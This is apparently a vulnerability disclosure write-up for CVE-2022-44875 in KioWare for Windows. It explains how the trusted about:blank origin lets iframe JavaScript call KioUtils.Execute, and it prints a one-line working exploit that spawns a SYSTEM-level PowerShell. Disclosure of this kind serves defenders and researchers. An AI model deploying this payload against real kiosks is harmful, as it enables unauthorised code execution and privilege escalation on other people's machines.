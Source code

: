 # CVE-2022-44875
## Discovery
Looking through documentation, it can be found that KioWare for Windows has a lot of interesting custom APIs. Specifically the `KioUtils.Execute` that allows for running code as local admin: https://m.kioware.com/api/windows/8.30/javascript/kioutils.
These APIs are by default not available, unless a certain "Trust Level" is set in the web context.
The "KioWare Client.exe" binary is .NET, and can therefore trivially be decompiled meaningfully with tools like ILSpy.

Looking through the source and using a debugger, an interesting function can be found:
`ADSI.KioWare.Client.Platform.Client.KioBrowserFrame` has a function called `GetScriptingAclActions` which return `KioScriptingUrlACL.AclActions.AllowHigh` if the URL matches `_alwaysAllowedAclUrlsRegex`.
`ADSI.KioWare.Client.Platform.Client._AppContext` assigns a regex to `_alwaysAllowedAclUrlsRegex` which includes the User-Writable Program Data directory, as well as `about:blank`.
Especially `about:blank` is problematic, as any new iframe without a src attribute uses that as origin. This means that an attacker can write arbitrary js in an iframe that then has the Trust Level "High", which allows for using `KioUtils.Execute`

This would also allow for LPE if one has access to the kiosk as a low privilege user.
## Exploit
```html
<script>let c=document.createElement("iframe");document.body.appendChild(c);c.contentWindow.eval("KioUtils.Execute('powershell',true)")</script>
```

If a Kiosk visits a page serving that script, or an XSS is found in a page that is possible to visit a powershell running as `nt authority\system` is spawned.
